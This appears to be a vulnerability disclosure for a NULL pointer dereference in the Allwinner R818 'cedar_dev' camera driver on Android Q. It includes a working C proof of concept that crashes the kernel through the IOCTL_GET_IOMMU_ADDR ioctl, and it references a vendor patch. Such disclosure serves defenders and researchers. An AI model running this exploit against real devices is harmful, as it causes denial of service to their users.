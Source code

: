 ## Background
Allwinner R818 SoC is made for smart speakers with a screen which is a processor for use in Android-based
It integrates quad-core 64-bit CortexTM-A53 CPU and Imagination PowerVR GE8300 GPU to ensure response rapidity and
running smoothness for daily application, such as on-line video, web browsing, and so on

## Description
There is a NULL Pointer Reference in the camera driver "cedar_dev". An third-app could use the ioctl cmd "IOCTL_GET_IOMMU_ADDR"to cause a system crash.

## Affect Versions
Soc: Allwinner R818 
System: R818 Android Q 
SDK Version: V1.0 

## POC
The problem code is as follow:
![image](https://user-images.githubusercontent.com/13774458/129021015-5f952b84-0027-445b-aea6-877f01378364.png)
The param sUserIommuParam are from userspace which could use ioctl cmd "IOCTL_GET_IOMMU_ADDR" to pass to driver. The code do not judge if the pVeIommuBuf->fd are valid and the function dma_buf_get will return Null if the pVeIommuBuf->fd is invalid.

The POC is as follow:
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "cedar_ve.h"

struct VE_PROC_INFO {
    unsigned char   channel_id;
    unsigned int    proc_info_len;
};

struct cedarv_env_infomation_compat {
    unsigned int phymem_start;
    int  phymem_total_size;
    int  address_macc;
};

struct user_iommu_param {
    int             fd;
    unsigned int    iommu_addr;
};

#define DEV_NAME                     "/dev/cedar_dev"

int main(){
    int fd = open(DEV_NAME, O_RDONLY, 0);
    int ret = 0;
    if (fd <= 0) {
        printf("open %s failed \n", DEV_NAME);
        return -1;
    }
        // IOCTL_GET_IOMMU_ADDR
        struct user_iommu_param user_iommu_param;
        user_iommu_param.fd = 0;
        user_iommu_param.iommu_addr = 0xffff;
        ret =  ioctl(fd, IOCTL_GET_IOMMU_ADDR, &user_iommu_param);
        if (ret < 0) {
            printf("IOCTL_GET_IOMMU_ADDR Error!!\n");
            return -1;
        } else {
            printf("IOCTL_GET_IOMMU_ADDR Succeed!!\n");
        }
    return 0;
}

```

The crash log is as follow:
![image](https://user-images.githubusercontent.com/13774458/129021450-f5dc253f-7ca5-436a-a811-39086a667533.png)
![image](https://user-images.githubusercontent.com/13774458/129021466-a58f312a-3bcb-494f-a292-2b8d3cbf8273.png)

Could see the crash is locate in "compat_cedardev_ioctl"

## Patch
The patch of Allwinner is as follow:
![image](https://user-images.githubusercontent.com/13774458/129021613-1a935512-36aa-43e6-a165-3a2e3bb3fc53.png)

## References
https://www.cnvd.org.cn/flaw/show/CNVD-2021-49168
https://vul.wangan.com/a/CNVD-2021-49168
https://www.allwinnertech.com/index.php?c=product&a=index&id=92
